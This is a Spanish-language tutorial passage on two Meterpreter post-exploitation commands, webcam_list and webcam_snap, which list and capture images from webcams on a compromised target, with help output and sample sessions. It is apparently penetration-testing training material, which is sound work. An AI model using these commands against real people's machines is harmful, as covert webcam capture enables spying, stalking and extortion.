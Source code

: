- WEBCAM_LIST

El comando webcam_list cuando se ejecuta desde el shell Meterpreter, mostrará las cámaras web actualmente disponibles en el host de destino.

Uso de ejemplo:

	meterpreter > webcam_list
	1: Creative WebCam NX Pro
	2: Creative WebCam NX Pro (VFW)
	meterpreter >

- WEBCAM_SNAP

El  comando webcam_snap ' toma una imagen de una cámara web conectada en el sistema de destino y la guarda en el disco como una imagen JPEG. De forma predeterminada, la ubicación para guardar es el directorio de trabajo actual local con un nombre de archivo aleatorio.

	meterpreter > webcam_snap -h
	Usage: webcam_snap [options]
	Grab a frame from the specified webcam.
	
	OPTIONS:
	
	    -h      Help Banner
	    -i   The index of the webcam to use (Default: 1)
	    -p   The JPEG image path (Default: 'gnFjTnzi.jpeg')
	    -q   The JPEG image quality (Default: '50')
	    -v   Automatically view the JPEG image (Default: 'true')
	
	meterpreter >
	OPCIONES:
	
	-h: muestra la información de ayuda para el comando
	-i opt: si hay más de 1 cámara web conectada, use esta opción para seleccionar el dispositivo para capturar la imagen
	        
	-p opt: cambia la ruta y el nombre de archivo de la imagen que se va a guardar
	-q opt: la calidad de imagen, 50 es la configuración predeterminada / media, 100 es la mejor calidad
	-v opt: de forma predeterminada, el valor es verdadero, que abre la imagen después de la captura.

Uso de ejemplo:

	meterpreter > webcam_snap -i 1 -v false
	[*] Starting...
	[+] Got frame
	[*] Stopped
	Webcam shot saved to: /root/Offsec/YxdhwpeQ.jpeg
	meterpreter >